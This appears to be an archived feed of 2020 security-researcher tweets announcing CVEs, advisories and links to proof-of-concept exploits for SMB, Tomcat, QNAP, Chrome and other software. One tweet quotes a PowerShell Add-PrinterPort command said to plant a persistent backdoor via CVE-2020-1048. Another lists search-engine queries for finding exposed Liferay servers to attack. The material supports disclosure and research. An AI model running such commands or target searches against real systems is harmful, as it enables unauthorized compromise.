* https://thehackernews.com/2020/06/SMBleed-smb-vulnerability.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>32</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>409</code></td>
<td>Favorites: <code>624</code></td>
</tr></table>

---
# _Homeostasie_
**https://twitter.com/_Homeostasie_/status/1270434679980777478 _at Tue Jun 09 19:16:45 +0000 2020_**
<blockquote>
[New Post] Here is my detailed write-up on a new #SMBv1 vulnerability named #SMBLost (CVE-2020-1301). 
#RCE conceivable. Find out why #SMBLost is less harmful than #SMBGhost or #EternalBlue.
#PoC causing a remote #DoS available. Stay secure! 🙂

➡️https://t.co/Hlk9ngsNcf https://t.co/VN28aqTrhM
</blockquote>

* https://airbus-cyber-security.com/diving-into-the-smblost-vulnerability-cve-2020-1301/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>258</code></td>
<td>Favorites: <code>438</code></td>
</tr></table>

---
# USCERT_gov
**https://twitter.com/USCERT_gov/status/1268997885225578496 _at Fri Jun 05 20:07:27 +0000 2020_**
<blockquote>
Protect your networks from malicious cyber actors. Update Microsoft SMB ASAP to patch RCE vulnerability, CVE-2020-0796, being exploited in the wild. [https://t.co/N89NWqFgIH] #Cyber #Cybersecurity #InfoSec #RCE
</blockquote>

* https://go.usa.gov/xwBec

<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>194</code></td>
<td>Favorites: <code>223</code></td>
</tr></table>

---
# pyn3rd
**https://twitter.com/pyn3rd/status/1268428152147066881 _at Thu Jun 04 06:23:32 +0000 2020_**
<blockquote>
Apache Tomcat + MongoDB Remote Code Execution PoC and writeup.

https://t.co/Ig3Dn98XcU https://t.co/QbncFWBLhP
</blockquote>

* https://github.com/pyn3rd/Apache-Tomcat-MongoDB-Remote-Code-Execution

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>90</code></td>
<td>Favorites: <code>253</code></td>
</tr></table>

---
# FlatL1ne
**https://twitter.com/FlatL1ne/status/1268286621377576960 _at Wed Jun 03 21:01:08 +0000 2020_**
<blockquote>
Apache Tomcat RCE by deserialization (CVE-2020-9484) – write-up and exploit

https://t.co/lmFgh6v6Gu
</blockquote>

* https://www.redtimmy.com/java-hacking/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>340</code></td>
<td>Favorites: <code>668</code></td>
</tr></table>

---
# netbiosX
**https://twitter.com/netbiosX/status/1267780444084469760 _at Tue Jun 02 11:29:46 +0000 2020_**
<blockquote>
SMBGhost - RCE PoC for CVE-2020-0796 "SMBGhost" https://t.co/LlLmOrwA6r
</blockquote>

* https://github.com/chompie1337/SMBGhost_RCE_PoC

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>124</code></td>
<td>Favorites: <code>253</code></td>
</tr></table>

---
# cyber_advising
**https://twitter.com/cyber_advising/status/1267767083888259072 _at Tue Jun 02 10:36:41 +0000 2020_**
<blockquote>
CVE-2020-0796 | Windows SMBv3 Client/Server Remote Code Execution Vulnerability

POC
https://t.co/A1KkMmCzf0 https://t.co/al3Ar5J20x
</blockquote>

* https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/48537.zip

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---
# chompie1337
**https://twitter.com/chompie1337/status/1267650767286153221 _at Tue Jun 02 02:54:29 +0000 2020_**
<blockquote>
It seems that ALOT of people are interested in the #SMBGhost CVE-2020-0796 RCE PoC source. Since 
@ZecOps will be releasing theirs in the coming days, and the bug has been patched for months, I think its OK to release for educational purposes. Find it here:https://t.co/6rA7yPCkeA
</blockquote>

* https://github.com/chompie1337/SMBGhost_RCE_PoC

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>139</code></td>
<td>Favorites: <code>289</code></td>
</tr></table>

---
# _ringzer0
**https://twitter.com/_ringzer0/status/1266347819482390530 _at Fri May 29 12:37:02 +0000 2020_**
<blockquote>
Discover how @bluefrostsec exploits #Android Binder to escape the Google #Chrome sandbox, attack the kernel, and obtain root privileges on a Pixel 3 device using CVE-2020-0041. https://t.co/9xtJJFBC3d

Detailed writeup by @esanfelix and @jgrusko with video demo and POC on Github! https://t.co/KwUnhUmy9k
</blockquote>

* https://bit.ly/CVE-2020-0041

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>59</code></td>
</tr></table>

---
# theevilbit
**https://twitter.com/theevilbit/status/1266246713150328832 _at Fri May 29 05:55:16 +0000 2020_**
<blockquote>
The 3rd part of my XPC series is up. This time I cover the Microsoft Auto Update LPE vulnerability (CVE-2020-0984) I found last year and was fixed recently. Great example for why proper client verification is extremely important.
https://t.co/6HZKbarrra
</blockquote>

* https://theevilbit.github.io/posts/secure_coding_privilegedhelpertools_part3/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>86</code></td>
</tr></table>

---
# standa_t
**https://twitter.com/standa_t/status/1266231645541068801 _at Fri May 29 04:55:24 +0000 2020_**
<blockquote>
Intel SDM added the Ice Lake specific MSRs. Ice Lake introduced the concept of the access level to lock the configuration registers as the 2nd line of defense. Once the DONE bit is set, they are automatically RO. @CHIPSEC detects it if the bit is not set  https://t.co/fFoB1y7Dnw https://t.co/vo0yBgY2mE
</blockquote>

* https://github.com/chipsec/chipsec/commit/35a614cbfcc5677667ee4c0a7b5396f155868d5e

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---
# USCERT_gov
**https://twitter.com/USCERT_gov/status/1266101773435129856 _at Thu May 28 20:19:20 +0000 2020_**
<blockquote>
.@NSAGov has released a cybersecurity advisory on Russian Sandworm APT actors exploiting CVE-2019-10149, a remote code execution vulnerability in Exim. Read more at https://t.co/d77VHReUx7. #Cyber #Cybersecurity #InfoSec
</blockquote>

* https://go.usa.gov/xwgXH

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>122</code></td>
<td>Favorites: <code>162</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1265991271182741505 _at Thu May 28 13:00:14 +0000 2020_**
<blockquote>
Kaspersky publishes a report on CVE-2019-13720, the Chrome zero-day that was unearthed/patched in October 2019.

Per Kaspersky, the zero-day was used by Operation WizardOpium APT in a classic watering-hole attack on a North Korea-related news site

https://t.co/pItDW2Fh0j
</blockquote>

* https://securelist.com/the-zero-day-exploits-of-operation-wizardopium/97086/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>44</code></td>
</tr></table>

---
# piedpiper1616
**https://twitter.com/piedpiper1616/status/1265082511245230080 _at Tue May 26 00:49:09 +0000 2020_**
<blockquote>
GitHub - amartinsec/CVE-2020-12800: POC Script for CVE-2020-12800: RCE through Unrestricted File Type Upload - https://t.co/6RIG8P48i3
</blockquote>

* https://github.com/amartinsec/CVE-2020-12800/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>44</code></td>
</tr></table>

---
# Th3Gundy
**https://twitter.com/Th3Gundy/status/1264596414002270208 _at Sun May 24 16:37:34 +0000 2020_**
<blockquote>
QNAP pre-auth root RCE Exploit (CVE-2019-7192 - CVE-2019-7195)  
https://t.co/lhmRDoa5M4

#QNAP #vulnerability #Exploit #BugBounty https://t.co/YtC1RL1W2x
</blockquote>

* https://github.com/th3gundy/CVE-2019-7192_QNAP_Exploit

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>100</code></td>
<td>Favorites: <code>206</code></td>
</tr></table>

---
# kumagami331
**https://twitter.com/kumagami331/status/1262973482507177984 _at Wed May 20 05:08:37 +0000 2020_**
<blockquote>
［CVE-2020-8165］ Ruby on Rails MemCacheStore and RedisCacheStore context dependency RCE
PoC: https://t.co/2mPQNEgZyq
</blockquote>

* https://github.com/masahiro331/CVE-2020-8165

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>5</code></td>
</tr></table>

---
# standa_t
**https://twitter.com/standa_t/status/1262375705691684865 _at Mon May 18 13:33:16 +0000 2020_**
<blockquote>
If you are curious about how DMA remapping (VT-d) can be configured to protect memory from DMA, here is a short introduction to it with sample code.
https://t.co/dSUeSkuiua

Code: https://t.co/dH1ZLqj2Ws https://t.co/URjPfmAg2R
</blockquote>

* https://standa-note.blogspot.com/2020/05/introductory-study-of-iommu-vt-d-and.html
* https://github.com/tandasat/HelloIommuPkg

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>98</code></td>
<td>Favorites: <code>253</code></td>
</tr></table>

---
# _mohemiv
**https://twitter.com/_mohemiv/status/1261110348897288192 _at Fri May 15 01:45:12 +0000 2020_**
<blockquote>
PoC for RCE in MS Exchange: https://t.co/xalbJ8XlX1 https://t.co/EnBvGpHDIo
</blockquote>

* https://github.com/SecureAuthCorp/impacket/pull/857

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>165</code></td>
<td>Favorites: <code>377</code></td>
</tr></table>

---
# EyalItkin
**https://twitter.com/EyalItkin/status/1260875003177861120 _at Thu May 14 10:10:01 +0000 2020_**
<blockquote>
CVE-2019-0887: Path-Traversal -&gt; RCE in mstsc.exe. Patched with PathCchCanonicalize.

CVE-2020-0655: We replaced '\' with '/', that's it. Patched with a workaround.

As Microsoft didn't patch PathCanonicalize, you need to manually fix your own programs!
https://t.co/kmpK9Ihi3Z
</blockquote>

* https://research.checkpoint.com/2020/reverse-rdp-the-path-not-taken/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>169</code></td>
</tr></table>

---
# _CPResearch_
**https://twitter.com/_CPResearch_/status/1260861318082564099 _at Thu May 14 09:15:38 +0000 2020_**
<blockquote>
[CPR-Zero] CVE-2020-1143 (Windows 10 Kernel): Use-After-Free in the NtUserGetDCEx function in win32kfull.sys
https://t.co/GkRF3Nk3wN
</blockquote>

* https://cpr-zero.checkpoint.com/vulns/cprid-2152/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---
# aionescu
**https://twitter.com/aionescu/status/1260466215299973121 _at Wed May 13 07:05:38 +0000 2020_**
<blockquote>
Attackers can exploit CVE-2020-1048 with a single PowerShell command:

Add-PrinterPort -Name c:\windows\system32\ualapi.dll

On an unpatched system, this will install a persistent backdoor, that won't go away *even after you patch*.

See https://t.co/9yMSWNM8VG for more details.
</blockquote>

* https://windows-internals.com/printdemon-cve-2020-1048/

<table><tr>
<td>Quotes: <code>55</code></td>
<td>Replies: <code>32</code></td>
<td>Retweets: <code>1244</code></td>
<td>Favorites: <code>2296</code></td>
</tr></table>

---
# netbiosX
**https://twitter.com/netbiosX/status/1259963564787404805 _at Mon May 11 21:48:17 +0000 2020_**
<blockquote>
RoguePotato - Another Windows Local Privilege Escalation from Service Account to System https://t.co/WD5YQDX2Zp
</blockquote>

* https://github.com/antonioCoco/RoguePotato

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>94</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1259674133249458176 _at Mon May 11 02:38:11 +0000 2020_**
<blockquote>
[PoC] A Python script to exploit CVE-2020-8816, a remote code execution vulnerability on the Pi-hole

The exploit requires the path for the www-data user to be /opt/pihole:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin.

https://t.co/tBbL7yFbmb https://t.co/vk5vCBgBZS
</blockquote>

* https://github.com/AndreyRainchik/CVE-2020-8816

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---
# faryadR
**https://twitter.com/faryadR/status/1258817889857081344 _at Fri May 08 17:55:47 +0000 2020_**
<blockquote>
CVE-2020-0674

CVE-2020-0674 is a use-after-free vulnerability in the legacy jscript engine. It can be triggered in Internet Explorer. The exploit here is written by maxpl0it but the vulnerability itself was discovered by Qihoo 360

@maxpl0it
 https://t.co/gzjeZBkKSZ
</blockquote>

* https://github.com/maxpl0it/CVE-2020-0674-Exploit

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---
# standa_t
**https://twitter.com/standa_t/status/1256596291993436160 _at Sat May 02 14:47:57 +0000 2020_**
<blockquote>
Good stuff. Pushed an example implementation of NMI handling during VMX root-mode for type-1. 
https://t.co/thFwMofm6F 
The previous commit includes a test program I used when I wrote it. Should be useful.
</blockquote>

* https://github.com/tandasat/MiniVisorPkg/commit/0dac000aa6a3abd2af0f7b7d139c1811cb001b24

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>44</code></td>
</tr></table>

---
# Intel80x86
**https://twitter.com/Intel80x86/status/1256569805504753666 _at Sat May 02 13:02:42 +0000 2020_**
<blockquote>
Yesterday, I saw an interesting post in the UC forum and it turns out to be a perfect bypass for most of the hypervisors that virtualize already running systems including my hypervisor &amp; possibly other HVs so it worth a tweet.
https://t.co/b7Dh4dgGr6

PoC:
https://t.co/UTClKAc677
</blockquote>

* https://www.unknowncheats.me/forum/c-and-c-/390593-vm-escape-via-nmi.html#post2772568
* https://github.com/SinaKarvandi/Misc/tree/master/HypervisorBypassWithNMI

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>81</code></td>
<td>Favorites: <code>245</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1256190520696725507 _at Fri May 01 11:55:33 +0000 2020_**
<blockquote>
Oracle has published a security alert last night warning of attacks against a recently patched WebLogic security bug

- The bug is CVE-2020-2883, a no-auth RCE in WebLogic
- CVSSv3 of 9.8/10
- Bug is patched, but PoC code has been published online

https://t.co/AdyCFcstDx https://t.co/OsOmTh3RoK
</blockquote>

* https://www.zdnet.com/article/oracle-warns-of-attacks-against-recently-patched-weblogic-security-bug/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---
# thezdi
**https://twitter.com/thezdi/status/1255528051816796161 _at Wed Apr 29 16:03:08 +0000 2020_**
<blockquote>
Detailing CVE-2020-0932 - a now patched RCE bug in #Microsoft #SharePoint reported to us by an anonymous researcher. The blog lays out how code exec is possible using TypeConverters and provides video demonstration and PoC. Read the post at https://t.co/cnAAUDh9ow
</blockquote>

* https://bit.ly/3cVGRt1

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>139</code></td>
<td>Favorites: <code>242</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1255267400691392512 _at Tue Apr 28 22:47:24 +0000 2020_**
<blockquote>
Google's today rolling out the latest Chrome version 81.0.4044.129 to Windows, Mac, and #Linux users that patches two high-severity vulnerabilities.

✅ CVE-2020-6462: Use after free in task scheduling

✅ CVE-2020-6461: Use after free in storage.

https://t.co/ywrKISoTke
</blockquote>

* https://chromereleases.googleblog.com/2020/04/stable-channel-update-for-desktop_27.html

<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>161</code></td>
<td>Favorites: <code>234</code></td>
</tr></table>

---
# AdmVonSchneider
**https://twitter.com/AdmVonSchneider/status/1254571681911386112 _at Mon Apr 27 00:42:52 +0000 2020_**
<blockquote>
Hello @BinjaDevs, @vector35.

https://t.co/VFgNL20nM7

#BinDiff https://t.co/fVWrAHn9uR
</blockquote>

* https://github.com/cblichmann/binexport/releases/tag/v11-20200427-binja-mvp

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>133</code></td>
</tr></table>

---
# standa_t
**https://twitter.com/standa_t/status/1254556942493790208 _at Sun Apr 26 23:44:18 +0000 2020_**
<blockquote>
Wrote a DXE runtime driver to monitor/block UEFI access. I felt it was little boring to implement it C so made the Rust version as well
https://t.co/lF8jETRabx
</blockquote>

* https://github.com/tandasat/UefiVarMonitor

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>70</code></td>
<td>Favorites: <code>229</code></td>
</tr></table>

---
# piedpiper1616
**https://twitter.com/piedpiper1616/status/1253106517240233984 _at Wed Apr 22 23:40:49 +0000 2020_**
<blockquote>
GitHub - james0x40/CVE-2020-0624: win32k use-after-free poc - https://t.co/kcE1y7MnRX
</blockquote>

* https://github.com/james0x40/CVE-2020-0624/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>10</code></td>
</tr></table>

---
# Void_Sec
**https://twitter.com/Void_Sec/status/1252976485863960576 _at Wed Apr 22 15:04:08 +0000 2020_**
<blockquote>
DeviceViewer v.3.10.12.0 - 'Username' Field (SEH) Stack Buffer Overlow. Metasploit module developed under Windows 10 Pro x64 v.1909 with DEP &amp; ASLR Bypass.

https://t.co/qd7W8mRheh - CVE-2019-11563 

#exploit #seh #overflow #metasploit https://t.co/p7k7UgmRfC
</blockquote>

* https://github.com/VoidSec/Exploit-Development/blob/master/modules/exploits/windows/fileformat/device_viewer.rb

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>10</code></td>
</tr></table>

---
# Madrobot_
**https://twitter.com/Madrobot_/status/1252821730508193799 _at Wed Apr 22 04:49:11 +0000 2020_**
<blockquote>
CVE-2020-7961: Liferay Portal Unauthenticated RCE

Google dork:- inurl:/api/jsonws
Shodan:- Powered+By+Liferay
publicwww:-https://t.co/BbDIOOZcil
POC:- https://t.co/MNkZELcoKy
#bugbounty #BugBountyTips #cve #Preauth #rce #liferay
</blockquote>

* https://publicwww.com/websites/Powered+By+Liferay/
* https://github.com/mzer0one/CVE-2020-7961-POC

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>74</code></td>
<td>Favorites: <code>115</code></td>
</tr></table>

---
# yorickkoster
**https://twitter.com/yorickkoster/status/1252531467974062080 _at Tue Apr 21 09:35:47 +0000 2020_**
<blockquote>
Local privilege escalation in QRadar due to https://t.co/Ip0BWQRWJW insecure file permissions (CVE-2020-4270). This issue can be chained with other vulnerabilities to compromise the QRadar system as root.

PoC: https://t.co/A7DJ1Aduu0
Advisory: https://t.co/82h0dhfT3X
</blockquote>

* http://run-result-reader.sh
* https://gist.github.com/ykoster/877f7f8dfc0cb7d7fc697c09ffa51845
* https://www.securify.nl/nl/advisory/SFY20200405/local-privilege-escalation-in-qradar-due-to-run-result-reader_sh-insecure-file-permissions.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>4</code></td>
</tr></table>

---
# _fel1x
**https://twitter.com/_fel1x/status/1252502296661016576 _at Tue Apr 21 07:39:52 +0000 2020_**
<blockquote>
My writeup for the haproxy http2 bug (CVE-2020-11100) is now public: https://t.co/rWgz4bfnCZ.  Includes a PoC exploit to demonstrate RCE against Ubuntu 19.10.
</blockquote>

* https://bugs.chromium.org/p/project-zero/issues/detail?id=2023

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>268</code></td>
<td>Favorites: <code>650</code></td>
</tr></table>

---
# james0x40
**https://twitter.com/james0x40/status/1252219604421705728 _at Mon Apr 20 12:56:33 +0000 2020_**
<blockquote>
Recently, I've found several bugs in #Chrome Blink&gt;WebRTC component including critical use-after-free #vulnerability.

Proof-of-concept codes were uploaded.
The #exploitation of OnSignalingChange use-after-free vulnerability is so challenging.
https://t.co/qk8a1RTmcu
</blockquote>

* https://github.com/james0x40/chrome-webrtc-pocs

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>61</code></td>
</tr></table>

---
# _CPResearch_
**https://twitter.com/_CPResearch_/status/1252174102133116928 _at Mon Apr 20 09:55:44 +0000 2020_**
<blockquote>
[CPR-Zero] CVE-2020-0791 (Windows 10 Kernel): Out-Of-Bounds Read\Write in the StrechBlt function in win32kfull.sys
https://t.co/PGg9X2bNHE
</blockquote>

* https://cpr-zero.checkpoint.com/vulns/cprid-2147/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>71</code></td>
<td>Favorites: <code>135</code></td>
</tr></table>

---
# cyber_advising
**https://twitter.com/cyber_advising/status/1251105916843429888 _at Fri Apr 17 11:11:09 +0000 2020_**
<blockquote>
CVE-2020-13694 : A Chrome WebRTC use-after-free vulnerability PoC

https://t.co/5tZtQuuJEq https://t.co/hjmVLyTkdj
</blockquote>

* https://github.com/james0x40/chrome-webrtc-pocs/blob/master/cve-2019-13694.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---
# GHSecurityLab
**https://twitter.com/GHSecurityLab/status/1250838868536025090 _at Thu Apr 16 17:30:00 +0000 2020_**
<blockquote>
GHSL-2020-037: Use after free in Chrome webaudio - CVE-2020-6428 https://t.co/pYcJ55DXEH
</blockquote>

* https://securitylab.github.com/advisories/GHSL-2020-037-chrome

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---
# james0x40
**https://twitter.com/james0x40/status/1250777364105232385 _at Thu Apr 16 13:25:36 +0000 2020_**
<blockquote>
A WebRTC use-after-free vulnerability PoC code is uploaded.
CVE-2019-13694
https://t.co/nISlSQ5n91
</blockquote>

* https://github.com/james0x40/chrome-webrtc-pocs/blob/master/cve-2019-13694.html

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>62</code></td>
<td>Favorites: <code>157</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/1250121074425167873 _at Tue Apr 14 17:57:44 +0000 2020_**
<blockquote>
Killed 7 vulnerabilities in tonight Microsoft patch Tuesday:

Jet Database Engine:
CVE-2020-0953: RCE
CVE-2020-0959: RCE
CVE-2020-0960: RCE
CVE-2020-0988: RCE
CVE-2020-0992: RCE
CVE-2020-0994: RCE

Windows:
CVE-2020-0821: information disclosure
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---
# metasploit
**https://twitter.com/metasploit/status/1248658249043378179 _at Fri Apr 10 17:05:00 +0000 2020_**
<blockquote>
#Metasploit wrap-up c/o @pearce_barry: Meterpreter bug fixes and five new modules, including an LPE exploit for SMBghost (CVE-2020-0796) and a BloodHound post module that gathers info and stores it as a BloodHound-consumable ZIP file in Framework loot. https://t.co/0LnGh8Jkkf
</blockquote>

* https://blog.rapid7.com/2020/04/10/metasploit-wrap-up-59/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>62</code></td>
</tr></table>

---
# Milad_Pc
**https://twitter.com/Milad_Pc/status/1247938403238383616 _at Wed Apr 08 17:24:35 +0000 2020_**
<blockquote>
SMBGhost Local Privilege Escalation POC - CVE-2020-0796
#cve #cybersecurity #smbghost #PenTest #infosec
https://t.co/jHu0qAHM3g
</blockquote>

* https://github.com/ZecOps/CVE-2020-0796-LPE-POC

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---
# eternalsakura13
**https://twitter.com/eternalsakura13/status/1247643720503062529 _at Tue Apr 07 21:53:37 +0000 2020_**
<blockquote>
https://t.co/TSl14LmZbP

Always alpha : )
My third chrome security high, unfortunately I have never fully implemented the exploit.

Can someone tell me how to write the RCE exploit for my bug CVE-2019-5831, I really want to know
https://t.co/uZE5jpsm9H https://t.co/JYT9SPuBtG
</blockquote>

* https://chromereleases.googleblog.com/2020/04/stable-channel-update-for-desktop_7.html
* https://bugs.chromium.org/p/chromium/issues/detail?id=950328

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>100</code></td>
</tr></table>

---
# ptracesecurity
**https://twitter.com/ptracesecurity/status/1247064710463225856 _at Mon Apr 06 07:32:50 +0000 2020_**
<blockquote>
CVE-2020-3947: Use after free vulnerability in the VMware workstation DHCP component  https://t.co/n23a6LvXTe  #Vmware #Vulnerability #CyberSecurity #Infosec https://t.co/3zXc49BNqA
</blockquote>

* https://www.zerodayinitiative.com/blog/2020/4/1/cve-2020-3947-use-after-free-vulnerability-in-the-vmware-workstation-dhcp-component

<table><tr>
<td></td>
